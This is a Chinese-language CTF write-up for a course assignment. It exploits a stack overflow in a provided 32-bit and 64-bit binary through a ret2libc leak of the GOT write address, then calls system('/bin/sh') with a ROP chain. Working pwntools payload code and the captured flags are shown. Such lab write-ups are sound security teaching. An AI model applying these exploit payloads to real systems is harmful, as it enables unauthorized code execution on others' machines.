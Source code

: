 # PWN 1
## 1.作业要求：
分析附件中的2个有漏洞的程序（同一个代码编译的32位版本、64位版本），获取部署了该漏洞程序的目标服务器中的flag（一个文件的内容，格式大概为：flag{...}），即为攻击成功。
附件中包含2个程序的可执行文件，以及可能需要的libc库。编写你的exploit，完成本地测试之后，去目标服务器验证。
文件：  
https://github.com/ReAbout/ctf-writeup/tree/master/pwn000/files/vul

## 2.反汇编代码
vuln32：
```
nt __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  write(1, wel, 0x1Eu);
  dovuln();
  return 0;
}

int dovuln()
{
  int v0; // eax
  char buf; // [esp+4h] [ebp-44h]
  char v3[51]; // [esp+5h] [ebp-43h]
  int v4; // [esp+38h] [ebp-10h]
  unsigned int v5; // [esp+3Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(v3, 0, 0x30u);
  v4 = 0;
  while ( 1 )
  {
    if ( read(0, &buf, 1u) != 1 )
      exit(0);
    if ( buf == 10 )
      break;
    v0 = v4++;
    v3[v0] = buf;
  }
  return puts(v3);
}
```
## 3.思路：
漏洞点：char v3[51]数据读取无验证越界，导致栈溢出。
防护：  
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/pwn000/images/pwn3.png)<br>
奇怪的是开启canary，但是无法修改无法触发。主要就是考虑过NX。
本题提供了libc，就是使用write函数将got表中write（read）地址作为参数，调用plt表中的write函数，得到基地址后加上libc中的system函数在程序中的偏移，就得到了system函数的实际地址，进行调用即可。  
数组v3（51个元素）在栈里后一个是整数v4，偏移为43（距离ebp43）+4（ebp大小）=47，覆盖v4，所以溢出触发payload为51 * 'a'+'\x47'
### 1 [32bit]
#### (1)发送payload溢出覆盖return，返回到glt表write函数，输出got表中write的地址，并返回到main函数。
也就是先调用write(1,write函数地址,4)，第一个参数文件描述符等于1表示输出，4代表输出的长度，中间的就是输出的内容，调用完成后返回主函数，得到基地址后为泄露system函数的地址做准备。
Payload:
```
num = 51 
payload = num * 'a'+'\x47'
payload += p32(elf.symbols['write'])
#payload += p32(0x80486b2)
payload += p32(elf.symbols['main'])
payload += p32(1)
payload += p32(elf.got['write'])
payload += p32(4)
```
#### (2)计算出libc中system（）和bin/sh中的地址
write_addr - system_addr == write_addr_libc - system_addr_libc
```
wirte_offset = libc.symbols['write']
system_offset = libc.symbols['system']
bin_sh_offset = next(libc.search('/bin/sh'))
libc_base = write_addr -wirte_offset
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset
```
#### (3)再次发送payload溢出覆盖return，返回到system（）利用参数bin/sh，执行命令。
```
payload2 = 'a'*num + '\x47'
payload2 += p32(system_addr)
payload2 += p32(1)
payload2 += p32(bin_sh_addr)
```
__get flag__: flag{Ok_yOu_get@#$_it!}   
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/pwn000/images/pwn1.PNG)<br>
### [64bit]
x64思路相同，区别在于参数传递需要通过寄存器入栈。
>在x64下通常参数从左到右依次放在rdi, rsi, rdx, rcx, r8, r9，多出来的参数才会入栈.

索要就要找到通过32bit我们知道write，需要三个参数，即用到rdi、rsi、rdx三个寄存器。
利用工具[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)  --binary 指定二进制文件，使用grep在输出的所有gadgets中寻找需要的片段。
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/pwn000/images/pwn4.png)<br>
可以看到前面两个都可以找到合适的gadget，但是 pop rdx 的却找不到，也就是write函数的第三个参数是我们不能控制的，但是在动态调试时候，在read函数处下断点可以看到，此时的rdx是为 0x200，也就是说 write 函数的标准输出的长度为0x200字节，这里只要大于8个字节（地址长度），我们都可以得到read函数的真实地址（got表中的地址）
payload：
```
pop_rdi_addr = 0x0000000000400933 #pop rdi ; ret
pop_rsi_addr = 0x0000000000400931 # pop rsi ; pop r15 ; ret
payload = num * 'a'+'\x47'
payload += p64(pop_rdi_addr)
payload += p64(1)

payload += p64(pop_rsi_addr)        
payload += p64(elf.got['write'])  #rsi      
payload += p64(0)   #r15

payload += p64(elf.plt['write'])
payload += p64(elf.symbols['main'])   
```
payload2:
```
payload2 += p64(pop_rdi_addr)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)
```
踩坑：
本地测试成功，服务器不成功，估计write参数问题，改用puts函数。
payload:
```
payload += p64(pop_rdi_addr)
payload += p64(elf.got['write'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['main']) 
```
结果调试的时候发现地址只输出6个字节，一直少两位，调试发现就是6位，用\x00\x00补齐成功。

__get flag__: flag{__you_are_so_Cu7e_!!}   
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/pwn000/images/pwn2.png)<br>
# EXP
[32bit Exploit](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/files/exp.py)<br>
[64bit Exploit](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/files/exp64.py)

